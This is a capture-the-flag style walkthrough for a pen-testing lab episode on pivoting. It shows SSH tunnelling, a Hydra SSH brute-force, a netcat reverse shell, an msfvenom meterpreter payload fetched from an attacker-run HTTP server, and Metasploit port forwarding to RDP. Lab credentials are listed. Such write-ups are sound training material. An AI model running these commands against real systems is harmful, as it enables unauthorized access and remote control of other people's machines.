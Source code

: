 ```yaml
---
date: 2025-03-01
categories: [CTF, IML]
title: "IML - Infrastructure Pen Testing: Ep.7 — Pivoting"
tags: ['hydra', 'linux', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows']

description: "Infrastructure Pen Testing Ep - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Infrastructure Pen Testing: Ep.7 — Pivoting


![image1](../resources/5c9a57ca981f4eecab592d75a051e28d.png)

![image2](../resources/b70f40d5e07c44ee85804e505797152c.png)

Pivot 1: **root : PwnedR00t**

Target 2: **Administrator : Adm1nPass**

1.) Setup SSH Tunnel:

```bash
ssh -L 2222:10.102.173.65:22 root@10.102.16.36 -v

```

![image3](../resources/8c001310ce5342bbbbee1b72afd4cfbf.png)

2.) Run Hydra (It does take a few minutes):

```bash
hydra -l root -P /usr/share/wordlists/metasploit/burnett_top_1024.txt 127.0.0.1 ssh -s 2222

```

![image4](../resources/c4f91f3878144690ad885688efb79eb4.png)

3.)
- **<u>Target1:</u>**
**root : michael1**

- SSH into Target1 (with the portforward still running):
```bash
ssh root@localhost -p 2222

```

![image5](../resources/0e95f194048048259275d46e17513a25.png)

IP's changed

![image6](../resources/51ec4caab6944c13bc33e465e2653707.png)

4.)Extra challenge: Try sending a reverse shell from the first target back to the Kali machine:

- Set up reverse port forward (on the pivot machine)
```bash
portfwd add -R -L <KALI IP> -l 6666 -r 7777

```
or something like:

```bash
ssh -R <Windows 7 Internal Network IP>:<Windows 7 Unused Port>:<Kali Linux Local IP>:<Kali Linux reverse shell listening port> <username>@<Windows 7 IP>

```
- Start listener locally on port 6666 (on Kali)

- On target 1, netcat to pivot machine on 7777 (or use a msfvenom payload with port 7777)
```bash
nc 10.102.32.119 7777

```
5.)Use the second pivot host's port 80 service to get a reverse shell:

- Go to <http://10.102.43.238>

- Create msfvenom payload:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.184.68 LPORT=9000 -f elf -o reverse.elf

```
- Setup python server

- Run:
http://10.102.184.68:8000/reverse.elf


![image7](../resources/b3f7337ae52244a28649af39294a54d0.png)

6.)Using Metasploit's port forwarder, RDP into the second target:

**portfwd add -l \<PORT_ON_LOCAL_MACHINE\> -p \<REMOTE_PORT\> -r \<DESTINATION_HOST\>**

```bash
portfwd add -l 5555 -p 3389 -r 10.102.108.144
```

![image8](../resources/cfa5ddc2e95545febf940bbbf6492b58.png)

```bash
xfreerdp /u:Administrator /v:127.0.0.1:5555 /p:Adm1nPass
```

![image9](../resources/01f260de1db541d2a3217cd377877f93.png)